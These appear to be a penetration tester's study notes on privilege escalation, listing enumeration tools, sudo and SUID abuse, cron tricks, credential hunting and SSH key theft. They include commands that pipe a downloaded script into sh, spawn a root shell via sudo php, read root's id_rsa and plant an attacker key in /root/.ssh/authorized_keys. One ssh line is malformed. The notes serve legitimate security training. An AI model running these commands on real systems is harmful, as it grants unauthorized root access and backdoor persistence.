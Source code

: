 Checklists to check potential vulnerabilities to get higher privileges :
- https://book.hacktricks.xyz/welcome/readme
- https://github.com/swisskyrepo/PayloadsAllTheThings

Enumeration :
- https://github.com/rebootuser/LinEnum
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/GhostPack/Seatbelt
- https://github.com/411Hall/JAWS

Enumeration from PEASS-ng :
- https://github.com/carlospolop/PEASS-ng
./linpeas.sh

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

1. Kernel Exploits

If the server version is old, check the exploits linked Kernel vulnerabilities

Keep in mind : kernel exploits can cause system instability, and we should take great care before running them on production systems. (test on dev lab before running in production and with explicit approval and coordination with our client)

2. Vulnerable Software

Look for is installed software :

- On linux : dpkg -l
- On Windows : ls c:\Progam Files

3. User Privileges

- Check Sudo privileges : sudo -l
    (user : user) NOPASSWD: /bin/echo -> no password required to run /bin/echo 
    sudo -u user /bin/echo Hello World!
    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
- SUID
    https://gtfobins.github.io/
- Windows Token Privileges
    https://lolbas-project.github.io/#

4. Scheduled Tasks

4.1. Add new scheduled tasks/cron jobs
/etc/crontab
/etc/cron.d
/var/spool/cron/crontabs/root
4.2. Trick them to execute a malicious software

5. Exposed Credentials

- Configuration files
- Log files
- user history files (bash_history in Linux and PSReadLine in Windows)
- Password reuse : same password of our user (su -)

The enumeration scripts we discussed at the beginning usually look for potential passwords in files and provide them to us, as below:

6. SSH Keys

/home/user/.ssh/id_rsa
/root/.ssh/id_rsa

chmod 600 id_rsa
ssh user@10.10.10.10 -i id_rsa

place our public ssh key in /home/user/.ssh/authorized_keys
ssh-keygen -f key

2 keys are generated :
key
key.pub

Add our public key on the remote host :
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys

    ssh -p "password1”  ssh user1@94.237.56.76

ssh -p 41385 root@83.136.252.24 -i id_rsa
chmod 600 id_rsa

